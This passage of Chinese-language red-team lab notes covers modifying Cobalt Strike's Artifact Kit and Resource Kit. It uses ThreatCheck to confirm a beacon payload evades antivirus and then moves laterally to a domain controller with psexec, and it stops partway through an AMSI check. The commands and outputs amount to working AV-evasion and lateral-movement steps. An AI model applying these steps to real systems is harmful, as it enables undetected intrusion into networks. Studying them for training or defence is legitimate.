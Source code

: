 -rwxr-xr-x 1 root root 312334 Mar 17 09:25 artifact32big.dll
-rwxr-xr-x 1 root root 310286 Mar 17 09:25 artifact32big.exe
-rwxr-xr-x 1 root root  41998 Mar 17 09:25 artifact32.dll
-rwxr-xr-x 1 root root  39950 Mar 17 09:25 artifact32.exe
-rwxr-xr-x 1 root root 311822 Mar 17 09:25 artifact32svcbig.exe
-rwxr-xr-x 1 root root  41486 Mar 17 09:25 artifact32svc.exe
-rwxr-xr-x 1 root root 311808 Mar 17 09:26 artifact64big.exe
-rwxr-xr-x 1 root root 312320 Mar 17 09:26 artifact64big.x64.dll
-rwxr-xr-x 1 root root  41472 Mar 17 09:26 artifact64.exe
-rwxr-xr-x 1 root root 313344 Mar 17 09:26 artifact64svcbig.exe
-rwxr-xr-x 1 root root  43008 Mar 17 09:26 artifact64svc.exe
-rwxr-xr-x 1 root root  41984 Mar 17 09:25 artifact64.x64.dll
-rw-r--r-- 1 root root   2031 Mar 17 09:25 artifact.cna
```

把整个文件夹拷贝到```C:\Tools\cobaltstrike\ArtifactKit```

```
C:\Tools\cobaltstrike>pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```

在 Cobalt Strike 中，会看到它已经加载，理论上无需再次加载，如果需要手动加载，转到```Cobalt Strike > Script Manager```

再次测试上面的输入文件
```
C:\Tools>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc-dist-pipe.exe
[+] No threat found!
[*] Run time: 0.89s
```

现在横向到DC2就不会被AV侦测到
```
beacon> jump psexec64 dc-2 smb
Started service c1d61c7 on dc-2
[+] established link to child beacon: 10.10.17.71
```

# Resource Kit

Resource Kit 包含Cobalt Strike基于脚本的有效载荷模板，包括PowerShell、VBA和HTA
```
PS C:\Tools\cobaltstrike\ResourceKit> ls

    Directory: C:\Tools\cobaltstrike\ResourceKit

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2019   9:15 PM            205 compress.ps1
-a----         8/2/2018   2:17 AM           2979 README.txt
-a----         6/9/2020   6:31 PM           4359 resources.cna
-a----         4/3/2018   8:02 PM            830 template.exe.hta
...
```

template.x64.ps1是命令jump winrm64使用的模板

ThreatCheck检查
```
C:\>Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -e AMSI -f Tools\cobaltstrike\ResourceKit\template.x64.ps1
[+] Target file size: 2371 bytes
[+] Analyzing...
